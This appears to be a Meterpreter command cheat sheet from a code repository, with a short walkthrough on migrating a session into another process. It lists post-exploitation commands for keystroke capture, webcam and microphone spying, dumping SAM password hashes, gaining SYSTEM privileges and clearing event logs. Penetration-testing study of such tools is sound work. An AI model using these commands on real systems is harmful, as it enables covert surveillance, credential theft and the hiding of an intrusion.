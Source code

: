 --- ---
<h2>Top Commands</h2>
**Meterpreter Commands**
```Terminal
sessions -u NUMBER     ---> Turn Shell into Meterpreter session

run          ---> Executes a Meterpreter script or Post module
sessions     ---> Quickly switch to another session 
migrate      ---> Allows you to migrate Meterpreter to another process
background   ---> Backgrounds the current session
exit         ---> Terminate the Meterpreter session

help         ---> Displays the help menu
info         ---> Displays information about a Post module
irb          ---> Opens an interactive Ruby shell on the current session
load         ---> Loads one or more Meterpreter extensions

#Networking commands

arp          ---> Displays the host ARP (Address Resolution Protocol) cache
ifconfig     ---> Displays network interfaces available on the target system  

netstat      ---> Displays the network connections
portfwd      ---> Forwards a local port to a remote service
route        ---> Allows you to view and modify the routing table
resolve X_Y  ---> Check DNS of local network to find a host IP

#System commands

clearev      ---> Clears the event logs
execute      ---> Executes a command
getpid       ---> Shows the current process identifier
getuid       ---> Shows the user that Meterpreter is running as
kill         ---> Terminates a process
pkill        ---> Terminates processes by name
ps           ---> Lists running processes
reboot       ---> Reboots the remote computer
shell        ---> Drops into a system command shell
shutdown     ---> Shuts down the remote computer
sysinfo      ---> Gets information about the remote system, such as OS

#Others Commands (Listed under different menu categories in the help section)

idletime      ---> Returns the number of seconds the remote user has been idle
keyscan_dump  ---> Dumps the keystroke buffer
keyscan_start ---> Starts capturing keystrokes
keyscan_stop  ---> Stops capturing keystrokes
screenshare   ---> Allows you to watch the remote user's desktop in real time
screenshot    ---> Grabs a screenshot of the interactive desktop
record_mic    ---> Records audio from the default microphone for X seconds
webcam_chat   ---> Starts a video chat
webcam_list   ---> Lists webcams
webcam_snap   ---> Takes a snapshot from the specified webcam
webcam_stream ---> Plays a video stream from the specified webcam
getsystem     ---> Attempts to elevate your privilege to that of local system
hashdump      ---> Dumps the contents of the SAM database
```

- Meterpreter Migration Shell

	Migrating to another process will help Meterpreter interact with it. For example, if you see a word processor running on the target (e.g. word.exe, notepad.exe, etc.), you can migrate to it and start capturing keystrokes sent by the user to this process. Some Meterpreter versions will offer you the `keyscan_start`, `keyscan_stop`, and `keyscan_dump` command options to make Meterpreter act like a keylogger. Migrating to another process may also help you to have a more stable Meterpreter session. If you migrate in process id of browser, it might even be possible to inject elements in the web page.

	To migrate the session, you can use the `migrate` command and specify the PID of the target process. For example, if you wanted to migrate the session to the process with PID 1234, you would use the following command:

	The migrate command
	```shell-session
	- meterpreter > migrate 1234
	[*] Migrating from 1304 to 1234...
	[*] Migration completed successfully.
	meterpreter >
	```

	When you migrate the session to a different process, the payload is injected into the target process and begins executing within its context. This means that the payload is now running within the same process as the target process, and has the same privileges and access to resources as the target process. We can think about this has both PID that fuse together!

	Be careful; you may lose your user privileges if you migrate from a higher privileged (e.g. SYSTEM) user to a process started by a lower privileged user (e.g. webserver). You may not be able to gain them back.